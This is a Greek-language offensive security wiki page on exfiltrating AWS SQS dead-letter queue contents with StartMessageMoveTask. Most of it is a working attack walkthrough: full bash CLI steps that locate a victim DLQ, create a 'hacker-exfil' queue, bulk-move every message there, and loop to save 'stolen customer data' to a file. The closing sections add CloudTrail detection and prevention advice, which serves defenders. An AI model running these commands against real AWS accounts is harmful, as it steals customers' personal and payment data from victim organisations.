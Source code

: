 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../banners/hacktricks-training.md}}

## Περιγραφή

Καταχρήστε τα SQS message move tasks για να κλέψετε όλα τα συσσωρευμένα μηνύματα από το Dead-Letter Queue (DLQ) ενός θύματος ανακατευθύνοντάς τα σε attacker-controlled queue χρησιμοποιώντας `sqs:StartMessageMoveTask`. Αυτή η τεχνική εκμεταλλεύεται τη νόμιμη λειτουργία ανάκτησης μηνυμάτων του AWS για να exfiltrate ευαίσθητα δεδομένα που έχουν συσσωρευτεί σε DLQs με την πάροδο του χρόνου.

## Τι είναι ένα Dead-Letter Queue (DLQ)?

Ένα Dead-Letter Queue είναι μια ειδική SQS ουρά όπου τα μηνύματα αποστέλλονται αυτόματα όταν δεν μπορούν να επεξεργαστούν επιτυχώς από την κύρια εφαρμογή. Αυτά τα αποτυχημένα μηνύματα συχνά περιέχουν:
- Ευαίσθητα δεδομένα εφαρμογής που δεν μπόρεσαν να επεξεργαστούν
- Λεπτομέρειες σφαλμάτων και πληροφορίες debugging
- Personal Identifiable Information (PII)
- API tokens, credentials, ή άλλα secrets
- Επιχειρησιακά κρίσιμα δεδομένα συναλλαγών

Τα DLQ λειτουργούν ως "νεκροταφείο" για αποτυχημένα μηνύματα, καθιστώντας τα πολύτιμους στόχους αφού συσσωρεύουν ευαίσθητα δεδομένα με την πάροδο του χρόνου που οι εφαρμογές δεν κατάφεραν να επεξεργαστούν σωστά.

## Σενάριο επίθεσης

**Παράδειγμα πραγματικού κόσμου:**
1. **E-commerce application** επεξεργάζεται παραγγελίες πελατών μέσω SQS
2. **Μερικές παραγγελίες αποτυγχάνουν** (προβλήματα πληρωμής, αποθέματος, κ.λπ.) και μετακινούνται σε DLQ
3. **Το DLQ συσσωρεύει** εβδομάδες/μήνες αποτυχημένων παραγγελιών που περιέχουν δεδομένα πελατών: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Ο attacker αποκτά πρόσβαση** σε AWS credentials με δικαιώματα SQS
5. **Ο attacker ανακαλύπτει** ότι το DLQ περιέχει χιλιάδες αποτυχημένες παραγγελίες με ευαίσθητα δεδομένα
6. **Αντί να προσπαθήσει να προσεγγίσει μεμονωμένα μηνύματα** (αργό και προφανές), ο attacker χρησιμοποιεί `StartMessageMoveTask` για μαζική μεταφορά ΟΛΩΝ των μηνυμάτων στην δική του ουρά
7. **Ο attacker εξάγει** όλα τα ιστορικά ευαίσθητα δεδομένα με μία ενέργεια

## Απαιτήσεις
- Η source queue πρέπει να έχει ρυθμιστεί ως DLQ (αναφέρεται από τουλάχιστον μία queue RedrivePolicy).
- IAM permissions (εκτελούμενα ως το συμβεβλημένο με το περιστατικό victim principal):
- Στο DLQ (source): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- Στην destination queue: δικαίωμα παράδοσης μηνυμάτων (π.χ. queue policy που επιτρέπει `sqs:SendMessage` από το victim principal). Για προορισμούς στο ίδιο account αυτό συνήθως επιτρέπεται από προεπιλογή.
- Αν είναι ενεργοποιημένο το SSE-KMS: στο source CMK `kms:Decrypt`, και στο destination CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Impact
Exfiltrate ευαίσθητα payloads που έχουν συσσωρευτεί σε DLQs (αποτυχημένα events, PII, tokens, application payloads) με μεγάλη ταχύτητα χρησιμοποιώντας τα εγγενή SQS APIs. Λειτουργεί cross-account εάν η policy της destination queue επιτρέπει `SendMessage` από το victim principal.

## Πώς να Καταχραστείτε

- Εντοπίστε το ARN του victim DLQ και βεβαιωθείτε ότι αναφέρεται πράγματι ως DLQ από κάποια ουρά (οποιαδήποτε ουρά είναι επαρκής).
- Δημιουργήστε ή επιλέξτε μια attacker-controlled destination queue και λάβετε το ARN της.
- Ξεκινήστε ένα message move task από το victim DLQ προς την destination queue σας.
- Παρακολουθήστε την πρόοδο ή ακυρώστε εάν χρειαστεί.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: Ένας attacker έχει συμβιβαστεί AWS credentials και ανακάλυψε ότι μια e-commerce εφαρμογή χρησιμοποιεί SQS με ένα DLQ που περιέχει αποτυχημένες προσπάθειες επεξεργασίας παραγγελιών πελατών.

1) **Discover and examine the victim DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **Δημιουργία ουράς προορισμού ελεγχόμενης από attacker**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **Εκτέλεση μαζικής κλοπής μηνυμάτων**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **Συλλέξτε τα κλεμμένα ευαίσθητα δεδομένα**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### Σημειώσεις δια-λογαριασμού
- Η προοριζόμενη ουρά πρέπει να έχει resource policy που επιτρέπει στον principal του θύματος να εκτελεί `sqs:SendMessage` (και, αν χρησιμοποιείται, KMS grants/permissions).

## Γιατί αυτή η επίθεση είναι αποτελεσματική

1. **Νόμιμη λειτουργία AWS**: Χρησιμοποιεί ενσωματωμένη λειτουργικότητα του AWS, καθιστώντας δύσκολη την ανίχνευσή της ως κακόβουλη
2. **Μαζική λειτουργία**: Μεταφέρει χιλιάδες μηνύματα γρήγορα αντί για αργή μεμονωμένη πρόσβαση
3. **Ιστορικά δεδομένα**: Οι DLQs συσσωρεύουν ευαίσθητα δεδομένα σε βάθος εβδομάδων/μηνών
4. **Υπό το ραντάρ**: Πολλές οργανώσεις δεν παρακολουθούν στενά την πρόσβαση σε DLQs
5. **Δυνατότητα cross-account**: Μπορεί να exfiltrate στο AWS account του επιτιθέμενου αν τα δικαιώματα το επιτρέπουν

## Ανίχνευση και Πρόληψη

### Ανίχνευση
Παρακολουθήστε το CloudTrail για ύποπτες κλήσεις API `StartMessageMoveTask`:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### Πρόληψη
1. **Ελάχιστα δικαιώματα**: Περιορίστε τα δικαιώματα `sqs:StartMessageMoveTask` μόνο στους αναγκαίους ρόλους
2. **Παρακολούθηση DLQs**: Ρυθμίστε ειδοποιήσεις CloudWatch για ασυνήθη δραστηριότητα σε DLQs
3. **Πολιτικές διασταυρούμενων λογαριασμών**: Ελέγξτε προσεκτικά τις SQS queue policies που επιτρέπουν πρόσβαση μεταξύ λογαριασμών
4. **Κρυπτογραφήστε DLQs**: Χρησιμοποιήστε SSE-KMS με περιορισμένες πολιτικές κλειδιών
5. **Τακτικός καθαρισμός**: Μην αφήνετε ευαίσθητα δεδομένα να συσσωρεύονται σε DLQs επ' αόριστον

{{#include ../../../banners/hacktricks-training.md}}
